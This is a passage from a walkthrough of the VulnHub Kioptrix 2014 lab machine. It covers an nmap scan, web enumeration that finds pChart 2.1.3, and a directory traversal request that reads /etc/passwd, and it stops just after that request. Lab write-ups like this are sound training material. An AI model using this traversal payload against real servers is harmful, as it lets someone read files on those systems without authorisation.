 # Kioptrix 2014 | VulnHub
https://www.vulnhub.com/entry/kioptrix-2014-5,62/

### 1. Scan
```bash
kali@kali:~$ sudo nmap -A -T4 -p- 192.168.34.150
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-29 03:12 EDT
Nmap scan report for 192.168.34.150
Host is up (0.00075s latency).
Not shown: 65532 filtered ports
PORT     STATE  SERVICE VERSION
22/tcp   closed ssh
80/tcp   open   http    Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
|_http-server-header: Apache/2.2.21 (FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8
|_http-title: Site doesn't have a title (text/html).
8080/tcp open   http    Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
|_http-title: 403 Forbidden
MAC Address: 00:0C:29:88:6E:C3 (VMware)
Device type: general purpose
Running: FreeBSD 9.X|10.X
OS CPE: cpe:/o:freebsd:freebsd:9 cpe:/o:freebsd:freebsd:10
OS details: FreeBSD 9.0-RELEASE - 10.3-RELEASE
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.75 ms 192.168.34.150

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 125.10 seconds
```
The machine is running SSH and Apache on port 80 and 8080. Looks like the OS is FreeBSD as well.

### 2. Enumerate web servers
Checking out port 8080 first, the first page encountered is 403 forbidden. Dirbusting returns nothing but a wave of 403 responses as well. The web server on port 80 hosts a simple message: "It Works!". In the source code there is a commented out link directing to another page which turns out to be an instance of the pChart 2.1.3 PHP web app.
```html
<html>
 <head>
  <!--
  <META HTTP-EQUIV="refresh" CONTENT="5;URL=pChart2.1.3/index.php">
  -->
 </head>

 <body>
  <h1>It works!</h1>
 </body>
</html>

```
This web app has a few disclosed vulnerabilites - one which is going to help really early is a directory traversal bug which allows us to read files on the server. Filenames can be added to the URL, as follows:
```bash
GET /pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd

<code><span style="color: #000000">
```